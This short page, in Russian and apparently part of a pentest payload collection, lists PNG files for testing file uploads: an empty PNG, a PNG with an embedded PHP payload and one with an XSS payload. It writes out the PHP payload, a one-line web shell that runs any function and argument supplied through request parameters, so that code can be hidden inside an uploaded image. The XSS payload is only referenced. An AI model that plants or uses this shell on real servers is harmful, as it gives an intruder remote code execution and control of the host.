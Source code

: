 # png

## Пустая png

{% file src="../../../../.gitbook/assets/Empty.png" %}

## С php payload&#x20;

```
<?=$_GET[0]($_POST[1]);?>
```

{% file src="../../../../.gitbook/assets/phppng.png" %}

## С xss payload

{% file src="../../../../.gitbook/assets/xsspng.png" %}

